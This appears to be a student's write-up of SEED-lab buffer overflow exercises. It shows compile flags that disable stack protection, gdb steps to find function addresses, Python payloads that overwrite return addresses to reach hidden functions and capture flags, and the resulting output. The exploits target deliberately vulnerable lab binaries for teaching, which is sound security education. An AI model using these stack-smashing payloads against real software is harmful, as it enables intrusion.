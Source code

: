 # bof1

step1:
```bash
seed@68a4b6750ecf:~/seclabs$ gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```

step2:
```bash
seed@68a4b6750ecf:~/seclabs$ gdb -q bof1.out
```

step3:
```bash
gdb-peda$ disas secretFunc
```

step4:
```bash
save address secretFunc: 0x0804846b
```

step5:
```bash
seed@68a4b6750ecf:~/seclabs$ python -c "print('a'*204 +'\x6b\x84\x04\x08')" | ./bof1.out
```
**result:** <br>
Missing arguments  
Enter text:Congratulation!  
Segmentation fault  

# bof2
step1 and step2  similar bof1

step3:
```bash
seed@68a4b6750ecf:~/seclabs$ python -c "print('a'*40 + '\xef\xbe\xad\xde')" | ./bof2.out
```

**result:**   
[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ�    
[check] 0xdeadbeef   
Yeah! You win!   

# bof3
step1 and step2  similar bof1

step3:
```bash
gdb-peda$ disas shell
```

step4:
```bash
save address shell: 0x0804845b 
```

steo5:
```bash
seed@68a4b6750ecf:~/seclabs$ python -c "print('a'*128 + '\x5b\x84\x04\x08')" | ./bof3.out
```

**result:**  
You made it! The shell() function is executed

# ctf

step1 and step2  similar bof1

step3:
```bash
gdb-peda$ disas myfunc
```

step4:
```bash
save address myfunc: 0x0804851b ,save address myfunc: 0x080483e0
```

step5:
```bash
seed@ac432deba69f:~/seclabs$ touch flag1.txt | ./ctf.out $(python -c "print('a'*104 + '\x1b\x85\x04\x08'+ '\xe0\x83\x04\x08' + '\x11\x12\x08\x04'+'\x62\x42\x64\x44')")
```

**result:**  
myfunc is reachedYou got the flag

# flag

step1 and step2  similar bof1

step3:
```bash
seed@ac432deba69f:~/seclabs$ ./flag.out $(python -c "print('a'*17)")
```

**result:**  
Modified

# pattern

step1 and step2 similar bof1

step3:
```bash
seed@ac432deba69f:~/seclabs$ ./pattern.out $(python -c "print('a'*16 + '\x62\x42\x61\x41')")
```
**result:**  
Correct pattern
